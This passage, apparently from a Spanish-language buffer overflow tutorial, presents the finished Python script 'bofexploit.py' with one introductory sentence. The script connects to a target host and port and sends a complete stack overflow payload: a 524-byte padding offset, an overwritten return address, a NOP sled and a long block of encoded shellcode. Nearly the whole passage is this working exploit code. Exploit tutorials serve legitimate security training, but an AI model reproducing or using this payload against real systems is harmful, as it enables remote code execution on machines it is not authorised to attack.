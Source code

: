 Nuestro script `bofexploit.py` queda finalmente estructurado de la siguiente manera

```python
#!/usr/bin/python
import socket, sys, time
if __name__ == '__main__':
    ip_addr =  sys.argv[1]
    port = int(sys.argv[2])
    offset = 'A'*524
    eip = "\xf3\x12\x17\x31"
    nops = "\x90"*20
    command =  ""
    command += "\xb8\xad\x3d\x78\xbb\xda\xc9\xd9\x74\x24\xf4\x5f"
    command += "\x31\xc9\xb1\x52\x31\x47\x12\x03\x47\x12\x83\x6a"
    command += "\x39\x9a\x4e\x88\xaa\xd8\xb1\x70\x2b\xbd\x38\x95"
    command += "\x1a\xfd\x5f\xde\x0d\xcd\x14\xb2\xa1\xa6\x79\x26"
    command += "\x31\xca\x55\x49\xf2\x61\x80\x64\x03\xd9\xf0\xe7"
    command += "\x87\x20\x25\xc7\xb6\xea\x38\x06\xfe\x17\xb0\x5a"
    command += "\x57\x53\x67\x4a\xdc\x29\xb4\xe1\xae\xbc\xbc\x16"
    command += "\x66\xbe\xed\x89\xfc\x99\x2d\x28\xd0\x91\x67\x32"
    command += "\x35\x9f\x3e\xc9\x8d\x6b\xc1\x1b\xdc\x94\x6e\x62"
    command += "\xd0\x66\x6e\xa3\xd7\x98\x05\xdd\x2b\x24\x1e\x1a"
    command += "\x51\xf2\xab\xb8\xf1\x71\x0b\x64\x03\x55\xca\xef"
    command += "\x0f\x12\x98\xb7\x13\xa5\x4d\xcc\x28\x2e\x70\x02"
    command += "\xb9\x74\x57\x86\xe1\x2f\xf6\x9f\x4f\x81\x07\xff"
    command += "\x2f\x7e\xa2\x74\xdd\x6b\xdf\xd7\x8a\x58\xd2\xe7"
    command += "\x4a\xf7\x65\x94\x78\x58\xde\x32\x31\x11\xf8\xc5"
    command += "\x36\x08\xbc\x59\xc9\xb3\xbd\x70\x0e\xe7\xed\xea"
    command += "\xa7\x88\x65\xea\x48\x5d\x29\xba\xe6\x0e\x8a\x6a"
    command += "\x47\xff\x62\x60\x48\x20\x92\x8b\x82\x49\x39\x76"
    command += "\x45\xb6\x16\xfc\x15\x5e\x65\xfc\x14\x24\xe0\x1a"
    command += "\x7c\x4a\xa5\xb5\xe9\xf3\xec\x4d\x8b\xfc\x3a\x28"
    command += "\x8b\x77\xc9\xcd\x42\x70\xa4\xdd\x33\x70\xf3\xbf"
    command += "\x92\x8f\x29\xd7\x79\x1d\xb6\x27\xf7\x3e\x61\x70"
    command += "\x50\xf0\x78\x14\x4c\xab\xd2\x0a\x8d\x2d\x1c\x8e"
    command += "\x4a\x8e\xa3\x0f\x1e\xaa\x87\x1f\xe6\x33\x8c\x4b"
    command += "\xb6\x65\x5a\x25\x70\xdc\x2c\x9f\x2a\xb3\xe6\x77"
    command += "\xaa\xff\x38\x01\xb3\xd5\xce\xed\x02\x80\x96\x12"
    command += "\xaa\x44\x1f\x6b\xd6\xf4\xe0\xa6\x52\x14\x03\x62"
    command += "\xaf\xbd\x9a\xe7\x12\xa0\x1c\xd2\x51\xdd\x9e\xd6"
    command += "\x29\x1a\xbe\x93\x2c\x66\x78\x48\x5d\xf7\xed\x6e"
    command += "\xf2\xf8\x27"
    payload = offset + eip + nops + command 
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        s.connect((ip_addr, port))
        data = s.recv(1024)
        print("[*] Enviando payload...")
        s.send((payload).encode('latin1'))
        data = s.recv(1024)
    except:
        print("\n    [!] Ocurrio un error!")
        sys.exit(1)
```
